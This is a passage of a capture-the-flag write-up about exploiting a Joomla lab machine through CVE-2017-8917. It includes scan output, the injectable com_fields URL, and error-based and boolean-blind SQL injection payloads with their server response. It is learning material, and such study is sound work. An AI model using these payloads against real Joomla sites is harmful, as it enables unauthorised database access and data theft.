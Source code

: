 ```
==> DIRECTORY: http://10.10.141.227/administrator/includes/                    
+ http://10.10.141.227/administrator/index.php (CODE:200|SIZE:4846)            
==> DIRECTORY: http://10.10.141.227/administrator/language/                    
==> DIRECTORY: http://10.10.141.227/administrator/logs/    
	- 

```

---

## The Webpage:

The landing page consists of a mock news media site, with a login panel prompting username and password on the right side. 
- We know that this CTF will contain SQLi, so this may be our entry point
- We know from both the CTF as well as the whatweb scan that the site is using the Joomla CMS

---

## SQLi: 
The first step I took after making my initial scans was to look up known Joomla SQLi vulnerabities. I don't [yet] know the Joomla version, but [CVE-2017-8917](https://www.exploit-db.com/exploits/42033) pops up immediately on google and the exploitDB page even gives a sqlmap example command! 

While that is cool, I want to try to attempt to do this manually, so I'm going to keep the sqlmap command in the back of my mind and dive into attempting manual exploitation.

The vulnerable parameters/URL is:
```
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```
 - Specifically, the "com_fields" parameter is injectable. 

The exploitDB page also provides some different payloads for manual exploitation, including error-based, boolean-based blind, and AND/OR time-based blind. 

My first attempt, of course, will be error-based. 
### Error-based payload:
```
option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)b)c)
```

After entering the payload, I did indeed receive an error:
```
500 Duplicate entry 'qqvpq1qjpvq1' for key 'group_key' 
```

This at least shows that we are on the right track. I tried experimenting with the payload but ultimately was not succesful, so I moved onto another payload.

### Boolean-based blind payload:
```
option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)
```
